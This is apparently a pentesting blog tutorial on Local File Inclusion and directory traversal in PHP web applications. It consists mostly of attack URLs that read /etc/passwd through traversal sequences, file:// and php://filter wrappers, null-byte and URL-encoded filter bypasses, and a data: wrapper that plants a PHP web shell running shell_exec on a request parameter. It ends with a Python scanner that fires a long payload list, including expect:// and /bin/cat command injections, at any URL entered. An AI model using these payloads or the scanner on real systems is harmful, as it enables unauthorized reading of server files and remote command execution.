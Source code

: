 ```yaml
---
layout: single
title:  Local  File  Inclusion and  Directory  Path Traversal
date: 2023-03-05
classes: wide
header:
  teaser: /assets/images/htb-writeup-smasher/smasher.png
categories:
  - LFI
  - pentesting
  - bypass
tags:
  - LFI
  - pentesting
  - bypass
---
```

## Author  -  IRVING ST  -  (Comandre-ex)
The LFI (Local File inclusion) It is a web vulnerability that will allow us as attackers to load recent files on the machine by a parameter by

## Examples

``` ruby
url -> http://example.com/index.php?filename=img.png 
url -> http://example.com/index.php?file=img.png
url -> http://example.com/index.php?p=img.png
url -> http://example.com/index.php?f=img.png
```

We see a GET parameter that is loading an image. But if instead of pointing to the png we try to point to a file resident on the victim machine like /etc/passwd? imagining that the server is a linux-based system.

``` ruby 
url = http://example.com/index.php?filename=/etc/passwd
url = http://example.com/index.php?file=/etc/passwd
url = http://example.com/index.php?p=/etc/passwd
url = http://example.com/index.php?f=/etc/passwd
```

If the input is not well sanitized we can see the content of ```/etc/passwd```


In this vulnerability we can concatenate what is called a directory path traversal. This vulnerability allows us to roll back directories. In other words, we have a file in a fixed path residing in ```/home/images/image.png``` and if we tried to load /etc/passwd this could not be since it would look like this: ```/home/image/image.png/etc/passwd```

## Examples

``` ruby
url = http://example.com/index.php?filename=../../../../../..<file  path>

url = http://example.com/index.php?filename=../../../../../../etc/passwd
url = http://example.com/index.php?file=../../../../../../../etc/passwd
url = http://example.com/index.php?p=../../../../../../../../etc/passwd
url = http://example.com/index.php?f=../../../../../../../../etc/passwd
```
 
##  Wrappers 

It is a function provided by programming languages that allow us to interact with system resources or functions.

#### wrapper  file

``` ruby 
url = http://example.com/index.php?filename=file//<file path>

url = http://example.com/index.php?filename=file:///etc/passwd
url = http://example.com/index.php?file=file:///etc/passwd
url = http://example.com/index.php?p=file:///etc/passwd
url = http://example.com/index.php?f=file:///etc/passwd
```

#### Wrapper Base64  Encode

This wrapper allows you to encode the content in Base64 since many times due to the size of the file it does not show it to you.

``` ruby
url = http://example.com/index.php?filename=php://filter/convert.base64-encode/resource=<file path>

url = http://example.com/index.php?filename=php://filter/convert.base64-encode/resource=/etc/passwd
url = http://example.com/index.php?file=php://filter/convert.base64-encode/resource=/etc/passwd
url = http://example.com/index.php?p=php://filter/convert.base64-encode/resource=/etc/passwd
url = http://example.com/index.php?f=php://filter/convert.base64-encode/resource=/etc/passwd
```

#### Rot13 Encode

This wrapper allows you to encode the content in Rot13 since many times due to the size of the file it does not show it to you.

``` ruby
url = http://example.com/index.php?filename=php://filter/read=string.rot13/resource=<file path>

url = http://example.com/index.php?filename=php://filter/read=string.rot13/resource=/etc/passwd
url = http://example.com/index.php?file=php://filter/read=string.rot13/resource=/etc/passwd
url = http://example.com/index.php?p=/etc/passwd
url = http://example.com/index.php?f=php://filter/read=string.rot13/resource=/etc/passwd
```

#### Wrapper  Data
This wrapper allows you to include external data. Among them malicious code php. This can already give us command execution remotely.


``` ruby 
url = http://exmaple.com/index.php?filename=data:text/plain,<php code>

url = http://example.com/index.php?filename=data:text/plain;,<?php echo shell_exec($_GET['cmd']);?>
url = http://example.com/index.php?file=data:text/plain;,<?php echo shell_exec($_GET['cmd']);?>
url = http://example.com/index.php?p=data:text/plain;,<?php echo shell_exec($_GET['cmd']);?>
url = http://example.com/index.php?f=data:text/plain;,<?php echo shell_exec($_GET['cmd']);?>
```

### Bypass filters  

In this part we will see the evasion of possible filters.

#### NULL BYTE

The first one that we will see is the ```NULL BYTE```. This technique is used since it may be defined by code that concatenates an extension. An example would be that it is defined that it drags the ```.py``` extension so you try to load the ```/etc/passwd``` but the filter will add the ```.py``` extension so it would look like this ```/etc/passwd.py```

``` ruby 
url = http://example.com/index.php?filename=../../../../../../etc/passwd%00
url = http://example.com/index.php?file=../../../../../../../etc/passwd%00
url = http://example.com/index.php?p=../../../../../../../../etc/passwd%00
url = http://example.com/index.php?f=../../../../../../../../etc/passwd%00
```

#### URL ENCODE

In this article we will see the application of the url encode in the url


``` ruby 
url = http://example.com/index.php?filename=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
url = http://example.com/index.php?file=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
url = http://example.com/index.php?p=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
url = http://example.com/index.php?f=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
```

Finally I share a scanner to detect Local File Inclusion. Echo in python


``` python
#!/usr/bin/env python3
# Author - comandre-ex - IRVING ST
# Este proyecto fue creado para el análisis de vulnerabilidades web, Creado por un estudiante de la escuela CETIS50.

from colorama import Fore, Style
from pwn import *
import time, sys, signal, string, requests, cmd
import mitmproxy.http
from bs4 import BeautifulSoup


def def_handler(sig, frame):
    log.failure(Fore.RED + Style.BRIGHT + "Exiting...")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)


#  Payloads...
local_file_inclusion = [             
        "/etc/passwd%2500", "/etc/passwd%00", "/etc/passwd", "///etc///passwd%2500", "///etc///passwd%00", "///etc///passwd", "../etc/passwd%2500", "../etc/passwd%00", "../etc/passwd", "..///etc///passwd%2500", "..///etc///passwd%00", "..///etc///passwd", "..///..///etc///passwd%2500", "..///..///etc///passwd%00", "..///..///etc///passwd", "..///..///..///etc///passwd%2500", "..///..///..///etc///passwd%00", "..///..///..///etc///passwd", "..///..///..///..///etc///passwd%2500", "..///..///..///..///etc///passwd%00", "..///..///..///..///etc///passwd", "..///..///..///..///..///etc///passwd%2500", "..///..///..///..///..///etc///passwd%00", "..///..///..///..///..///etc///passwd", "..///..///..///..///..///..///etc///passwd%2500", "..///..///..///..///..///..///etc///passwd%00", "..///..///..///..///..///..///etc///passwd", "..///..///..///..///..///..///..///etc///passwd%2500", "..///..///..///..///..///..///..///etc///passwd%00", "..///..///..///..///..///..///..///etc///passwd", "../../etc/passwd%2500", "../../etc/passwd%00", "../../etc/passwd", "../../../etc/passwd%2500", "../../../etc/passwd%00", "../../../etc/passwd", "../../../../etc/passwd%2500", "../../../../etc/passwd%00", "../../../../etc/passwd", "../../../../../../etc/passwd%2500", "../../../../../../etc/passwd%00", "../../../../../../etc/passwd", "../../../../../etc/passwd%00", "../../../../../etc/passwd", "../../../../../../../etc/passwd%2500", "../../../../../../../etc/passwd%00","../../../../../../../etc/passwd%00", "../../../../../../../etc/passwd", "../../../../../../../../etc/passwd%2500", "../../../../../../../../etc/passwd%00", "../../../../../../../../etc/passwd", "\etc\passwd%2500", "\etc\passwd%00", "\etc\passwd", "..\etc\passwd%2500", "..\etc\passwd%00", "..\etc\passwd", "..\..\etc\passwd%2500", "..\..\etc\passwd%00", "..\..\etc\passwd", "..\..\..\etc\passwd%2500", "..\..\..\etc\passwd%00", "..\..\..\etc\passwd", "..\..\..\..\etc\passwd%2500", "..\..\..\..\etc\passwd%00", "..\..\..\..\etc\passwd", "..\..\..\..\..\etc\passwd%2500", "..\..\..\..\..\etc\passwd%00", "..\..\..\..\..\etc\passwd", "..\..\..\..\..\..\etc\passwd%2500", "..\..\..\..\..\..\etc\passwd%00", "..\..\..\..\..\..\etc\passwd", "%00../../../../../../etc/passwd", "%00/etc/passwd%00", "%0a/bin/cat%20/etc/passwd", "/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd", "..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd", "..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd", "\'/bin/cat%20/etc/passwd\'", "/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd", "/..%c0%af../..%c0%af../..%c0%af../..%c0%af../..%c0%af../..%c0%af../etc/passwd", "/etc/default/passwd","././././././././././././etc/passwd",".//.//.//.//.//.//.//.//.//.//.//.//etc//passwd", "/./././././././././././etc/passwd", "/../../../../../../../../../../etc/passwd", "/../../../../../../../../../../etc/passwd^^", "/../../../../../../../etc/passwd", "/etc/passwd", "../../../../../../../../../../../../etc/passwd", "../../../../../../../../etc/passwd", "../../../../../../../etc/passwd", "../../../../../../etc/passwd", "../../../../../etc/passwd","../../../../etc/passwd" , "../../../etc/passwd" , "../../etc/passwd" , "../etc/passwd", "../../../../../../../../../../../etc/passwd" , ".\./.\./.\./.\./.\./.\./etc/passwd","\..\..\..\..\..\..\..\..\etc\passwd","etc/passwd", "/etc/passwd%00", "../../../../../../../../../../../../etc/passwd%00","../../../../../../../../../../../etc/passwd%00", "../../../../../../../../../../etc/passwd%00", "../../../../../../../../../etc/passwd%00", "../../../../../../../../etc/passwd%00", "../../../../../../../etc/passwd%00", "../../../../../../etc/passwd%00", "../../../../../etc/passwd%00", "../../../../etc/passwd%00", "../../../etc/passwd%00","../../etc/passwd%00", "../etc/passwd%00", "\..\..\..\..\..\..\..\..\etc\passwd%00", "..\..\..\..\..\..\..\..\..\..\etc\passwd%00", "../..\..\..\..\..\..\..\..\..\..\etc\passwd%00", "/../../../../../../../../../../../etc/passwd%00.html", "/../../../../../../../../../../../etc/passwd%00.jpg", "../../../../../../etc/passwd&=%3C%3C%3C%3C", "..2fetc2fpasswd", "..2fetc2fpasswd%00", "..2f..2fetc2fpasswd", "..2f..2fetc2fpasswd%00", "..2f..2f..2fetc2fpasswd", "..2f..2f..2fetc2fpasswd%00", "..2f..2f..2f..2fetc2fpasswd", "..2f..2f..2f..2fetc2fpasswd%00", "..2f..2f..2f..2f..2fetc2fpasswd", "..2f..2f..2f..2f..2fetc2fpasswd%00", "..2f..2f..2f..2f..2f..2fetc2fpasswd", "..2f..2f..2f..2f..2f..2fetc2fpasswd%00", "..2f..2f..2f..2f..2f..2f..2fetc2fpasswd", "..2f..2f..2f..2f..2f..2f..2fetc2fpasswd%00", "..2f..2f..2f..2f..2f..2f..2f..2fetc2fpasswd", "..2f..2f..2f..2f..2f..2f..2f..2fetc2fpasswd%00", "..2f..2f..2f..2f..2f..2f..2f..2f..2fetc2fpasswd", "..2f..2f..2f..2f..2f..2f..2f..2f..2fetc2fpasswd%00", "..2f..2f..2f..2f..2f..2f..2f..2f..2f..2fetc2fpasswd", "..2f..2f..2f..2f..2f..2f..2f..2f..2f..2fetc2fpasswd%00", "%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%25%5c..%255cboot.ini", "%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/boot.ini", "..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/boot.ini", "../..\../..\../..\../..\../..\../boot.ini", "file:///etc/passwd",
        "php://filter/convert.base64-encode/resource=../../../../../etc/passwd", "expect://ls"
        ]


class ExploitingDate(cmd.Cmd):
    prompt = "(Demon CMD) "
    url = ''
    type_vulnerability = ''
    vulnerability_types = ['lfi']

    def do_set(self, arg):
        args = arg.split()
        if len(args) != 1:
            print('Error: set requires one argument (type of vulnerability)')
            return
        vuln_type = args[0]
        if vuln_type == 'lfi':
            self.type_vulnerability = 'lfi'
            print('Type of vulnerability set to LFI')
        else:
            print(f'Error: invalid type of vulnerability {vuln_type}')
        # solicitar la URL
        self.url = input('Enter the URL to scan: ')

    def do_show(self, arg):
        if arg == 'options':
            print('type_vulnerability')
        elif arg == 'values':
            print(f'type_vulnerability: {self.type_vulnerability}')
        else:
            print(f'Error: invalid argument {arg}')

    def do_exit(self, arg):
        return True

    def help(self):
        print('Available vulnerabilities: %s' % ', '.join(self.vulnerability_types))
        print('Required data:')
        print(' - url: URL of the website to scan')
        print(' - type_vulnerability: Type of vulnerability to scan')

    
    # Functions escaning
    def local_file_inclusionScanning(self):
        p2 = log.progress(Fore.WHITE + Style.BRIGHT + "Payload  Injectado  :")
        for Payloads in local_file_inclusion:
            main_url = self.url + Payloads
            response = requests.get(main_url)
            p2.status(Fore.WHITE + "%s" % Payloads)

            if "root" in response.text or "www-data" in response.text or "/usr/bin/zsh" in response.text or "/usr/bin/bash" in response.text:
                log.failure(Fore.WHITE + "Servidor vulnerable a Local file inclusion y path traversal.  Payload  Injectado: %s  " % Payloads)
            else:
                pass
    def run(self):
        if self.type_vulnerability == 'lfi':
            self.local_file_inclusionScanning()
    
    def do_run(self, arg):
        self.run()



if __name__ == '__main__':
    ExploitingDate().cmdloop()
```